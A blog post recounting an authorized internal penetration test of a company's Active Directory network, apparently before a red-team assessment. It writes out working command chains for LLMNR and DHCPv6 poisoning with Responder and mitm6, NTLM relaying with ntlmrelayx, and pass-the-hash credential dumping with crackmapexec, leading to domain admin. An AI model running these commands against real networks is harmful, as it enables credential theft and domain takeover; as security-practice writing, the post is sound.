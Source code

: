 ```yaml
---
layout: post
title: "Trying my hand with hacking Active Directories with responder, mitm6, ntlmrelayx and crackmapexec"
categories: ["Security"]
date: 2022-10-12
keywords:
- windows
- security
- active directory
- wireguard
- crackmapexec
- responder
- ntlmrelayx
---
```


So a customer of mine thought about ordering a Red Team Assessment and wanted me to go through their local network beforehands --- no need to make it too easy for the red teamers. The customer's network was a typical windows network, dated but kept up to date by two admins. Microsoft Defender was rolled out at all clients, and one some servers. A laptop with Kali Linux was connected to the local network, this was my starting point.

So the meta-data for this project were:

- root access to a kali linux laptop
- I did create a free Azure VM with wireguard to have a backup connection to the local laptop
- stealth was not required, the blue team was highly involved
- me: not too much experience with windows networks, I am rather doing app- or web-sec

Result: three to four hours later I was domain admin.

## Network Vulnerability Scan

As stealth was not mandatory, I installed [greenbone security](https://www.greenbone.net/en/) security assistant on linux:

~~~ sh
$ sudo apt install openvas
$ sudo gvm-setup
$ sudo gvm-check-setup
~~~

The initial update failed as some perimeter firewall blocked access to the greenbone community vulnerability database. As it was just an IP block, I routed the IP over the existing wireguard tunnel: problem solved. Thinking of which, in future assignments I might just route all external traffic through wireguard.

Please write down the admin password which will be output on the console

The initial setup still took more than one hour. While not being problematic at all, a problem was that the softwar did not give any reasonable feedback. It just looked as if the setup failed and I wouldn't be able to connect to localhost:9392. When looking at the htop output I saw that gasd (greenbone) and the postgresql were using almost 100% of the available CPU resources, so I just waited until that CPU storm died down and restarted the scanner.

Another problem was that the web-interface was bound to localhost and there seemed no easy one-step configuration option to switch this to 0.0.0.0. As this was a throw away setup, I just SSH port-forwarded port 9392 (over the wireguard connection) to my local desktop and accessed the scanner over this.

Started the scan, took around 24h to complete (customer hat four /24 networks). Afterwards I exported all the scans as xml and csv files for analysis. The Greenbone web interface is just too ugly.

In addition I started a slow but thorough nmap scan:

~~~ sh
$ nmap -A -p- -Pn -oA output_directory <ip-range>
~~~

This took around two days to finish.

### Results

Found a Linux and a Windows host with RCE; some configuration data was leaked, two printers printed out weird characters. Didn't look to bad.

On the other hand, the brutal scans were not detected by the blue team. This surprised me.

## Active Directory

I did the easy thing and started with [responder](https://github.com/lgandx/Responder) and impacket

~~~ sh
$ apt install responder python3-impacket impacket-scripts
~~~

Well, I wanted to, but the perimeter firewall seemed to detect impacket (downloaded through http from the apt repository) and block it. Unexpected, but what can you do? Well, change the protocol in `/etc/apt/sources.list` from `http` to `https` and install the packages.

### Passive Recon

Initially I did some passive listening (note the `eth1`, initially I used the wrong network card):

~~~ sh
$ responder -I eth1 -A
~~~

### LLMNR and stuff

LLMNR traffic was seen, so I did the obvious

~~~ sh
$ responder -I eth1 -w -d
~~~

Got some hashes as proof, but the EDR on some clients wasn't to happy and isolated some client computers from the network. Not my attacker machine, but the clients.. good choice. As stealth was not a requirement, the blue team disabled the isolation automation but kept logging (sentinel) on.

How are things looking w.r.t. with relaying tokens?

For that I enumerated the servers in the server-subnet and stored those in a file through [crackmapexec](https://github.com/Porchetta-Industries/CrackMapExec):

~~~ sh
$ apt install crackmapexec
$ crackmapexec smb <io-range> --gen-relay-list ~/targets.txt
$ sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf ~/targets.txt -smb2support
~~~

Open `/etc/responder/Repsonder.conf`, set http and smb to `Off` and restart responder:

~~~ sh
$ responder -I eth1 -w -d
~~~

Lots of output. Seems like a privileged user was relayed, was able to login to some of the backend servers and hashed were output. Weirdly, I wasn't able to use psexec.py or secretsdump.py to use those hashes, some of the errors indicated that I might have some python dependency problems. Meh. Not the perfect proof for a running attack.

Also, sentinel detected those attacks.

### mitm6 seems to be sneakier

LLMNR poisoning is old (7 years by now?) so I tried the same setup with [mitm6](https://github.com/dirkjanm/mitm6). The attack uses the same basic idea, but instead of using LLMNR/NB for answers it overrides the DHCPv4 responses with DHCPv6 responses. As I saw DHCPv6 traffic in the local network, this should work too.

~~~ sh
$ sudo pip install mitm6
$ sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf ~/targets.txt -smb2support
$ sudo mitm -d <ad domain name>
~~~

And success, output was similar to the responder-induced attacks (i.e., SAM dump) but it seems as if Microsoft Defender/Sentinel didn't show anything in the logs.

### crackmapexec to the rescue

Still I wasn't able to use the extracted SAM hashes, I was quite sure that this was related to the offered Kali Linux distribution. Let's just use another tool (which paradoxically also uses python3-impacket in the background) that we already have installed: crackmapexec.

~~~ sh
$ crackmapexec smb <server ip range> -u <user> -H <hash> --sam
~~~

And lo and behold.. many accounts got dumped. Seems like while the customer is using LAPS, there might be old default local administrative accounts lying around.. and all of them seem to use the same password.

As mentioned, I am not used to Active Directory assignments, this results happened after approximately two hours and I was a bit overwhelmed with all those hashes and keys. So I lost maybe a hour or so just reading through the output.

What I did then was, simplified:

~~~ sh
$ crackmapexec smb <server ip range> -u <user> -H <hash> --lsa

# got a dozen or so domain users, also the username/password of a local backup agent user

$ crackmapexec smb <server ip range> -d <domain> -u <user> -p <password> --lsa

# found something with "_adm" in it's name (domain admin)
$ crackmapexec smb <server ip range> -d <domain> -u <user> -H <hash> -M lsassy
~~~

As I had approx. a dozen passwords, three full domain admins and.. stuff. I stopped here.
